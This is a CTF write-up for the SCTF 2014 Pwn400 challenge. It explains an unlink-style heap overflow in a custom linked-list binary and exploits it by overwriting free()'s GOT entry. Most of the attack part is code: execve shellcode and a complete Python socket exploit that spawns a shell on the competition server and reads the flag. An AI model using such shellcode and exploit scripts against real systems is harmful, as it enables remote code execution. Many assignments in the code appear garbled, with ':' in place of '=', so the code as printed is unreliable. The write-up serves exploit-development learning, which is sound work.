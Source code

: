 ```yaml
---
type: ctf
title : SCTF 2014 - Pwn400
tags: [SCTF CTF, pwn400]
date : 2014-12-08
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQiSbw35M3yI5QqN2MsUgkNsNsNFqpbVZdRlA&usqp=CAU
---
```


Similar with Pwn200, Pwn400 gave us a binary file, but no libc.so. Open it with IDA Pro and analyze it, we found some information:
<!-- more -->

First, there's a data structure ( let's call it **node** ) which look like this:

```c
struct node{
  node *this; // the address of this node
  node *prev; // the address of the previous node
  node *next; // the address of the next node
  char title[64];
  char type[32];
  char content[256];
};

```
In this program, we're allow to:
1. New a node
2. Show a node's address ( yep, no need to leak it! )
3. Edit a node's content
4. Delete a node (by giving its address)

Notice that **we can ovewrite a node's data by overflowing its previous node's content**. Moreover, after checking the function of deleting a node, we found the following code:

``` c 
if ( *(_DWORD *)ptr == ptr )
{
    if ( *(_DWORD *)a1 == ptr )
    {
        *(_DWORD *)a1 : *(_DWORD *)(*(_DWORD *)a1 + 8);
    }
    else
    {
        if ( *(_DWORD *)(ptr + 8) )
        {
            /* the unlink vulnerability */
            v1 : *(_DWORD *)(ptr + 8);
            v2 : *(_DWORD *)(ptr + 4);
            *(_DWORD *)(v2 + 8) : v1;
            *(_DWORD *)(v1 + 4) : v2;
        }
        else
        {
            *(_DWORD *)(*(_DWORD *)(ptr + 4) + 8) : 0;
        }
    }
    write(1, "succeed!\n\n", 0xAu);
    free((void *)ptr);
}

```

The vulnerability's obvious: **Heap overflow**, except it use its own data structure.

Since it doesn't enable the DEP protection, we can store our shellcode in a known memory address (**which is, in this case, a node's content**), then exploit the heap overflow vulnerability, by overwriting `free()`'s GOT, let the function pointer point to our shellcode. 

For instance:
``` c
//free's GOT entry: 0x0804a450
v1 = node->next // 0x0804a44c, because 0x0804a44c+4 : 0x0804a450  
v2 : node->prev // shellcode's address
*(_DWORD *)(shellcode's address + 8) : 0x0804a44c ; //4 bytes of shellcode will be overwritten
*(_DWORD *)(0x0804a450) : shellcode's address; // overwrite free()'s GOT

```

Note that 4 bytes in shellcode will be overwritten, so we'll have to use `jmp relative` to skip those 4 bytes machine code. Here's my shellcode:

``` python
"\x90\x90\x90\x90\x90\x90"+ # NOP
"\xeb\x08"+ # skip 8 bytes
"AAAA"+ # overwritten part
"\x90"*10+ # NOP
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80" # shell
```

So here's the exploitation:
1. New 3 nodes: node1, node2 & node3
2. Store the shellcode in node3's content
3. Get the address of node3 & node2, calculate the shellcode's address
4. Edit node1, overwrite node2's prev & next by overflowing node1's content
5. Delete node2, overwrite `free()`'s GOT,  execute the shellcode & capture the flag
    
Here's the python script. Due to the connection problem, it has to wait 1 second before it recieve server's response.

``` python pwn400.py
from socket import *
import time
import binascii

sock : socket(AF_INET, SOCK_STREAM)
sock.connect(("218.2.197.248", 10003))

shell : "\x90\x90\x90\x90\x90\x90"+"\xeb\x08"+"AAAA"+"\x90"*10+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80"

print sock.recv(1024)

#insert node1
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)

#insert node2
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)

#insert node3
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send(shell+"\n") #write shellcode to node3's content
time.sleep(1)
print sock.recv(1024)

#show node 3 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
res : sock.recv(1024)
print res

#calculate shellcode's address
index : res.index("0x")
temp : res[index:index+10:]
shellcode_addr : int(temp, 16)+108
print "shellcode address: ", hex(shellcode_addr)
shellcode_addr_str : binascii.a2b_hex(hex(shellcode_addr)[2:10:].zfill(8))
print shellcode_addr_str

#show node 2 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
res : sock.recv(1024)
print res

index : res.index("0x")
temp : res[index:index+10:]
address : int(temp, 16)
del_addr : hex(address)[2::]
print "node2 address:", del_addr
node2_addr_str : binascii.a2b_hex(hex(address)[2:10:].zfill(8))
print node2_addr_str 

#BBBB: offset
#free()'s GOT: 0x0804a450, we send 0x0804a44c
exploit : "A"*256+"BBBB"+node2_addr_str[::-1]+shellcode_addr_str[::-1]+"\x4c\xa4\x04\x08"

#edit node 1
sock.send("4\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send(exploit+"\n") #overflow node1's content
time.sleep(1)
print sock.recv(1024)

#delete node 2
sock.send("5\n")
time.sleep(1)
print sock.recv(1024)
sock.send(del_addr+"\n")
time.sleep(1)
print sock.recv(1024)

sock.send('cat /home/pwn3/flag/flag\n') #capture the flag
time.sleep(1)
print sock.recv(1024)

sock.close()
```

The "BBBB" in the exploit is a 4 bytes data between each node. It actually is the meta data of a chunk. The `free()` function will check the meta data before it free the memory of a node. If the meta data isn't correct, the program will crash. But since we overwrite `free()`'s GOT, that meta data's no longer a problem.

flag: `SCTF{2318540E78446A0E84EF69685092F0C3}`
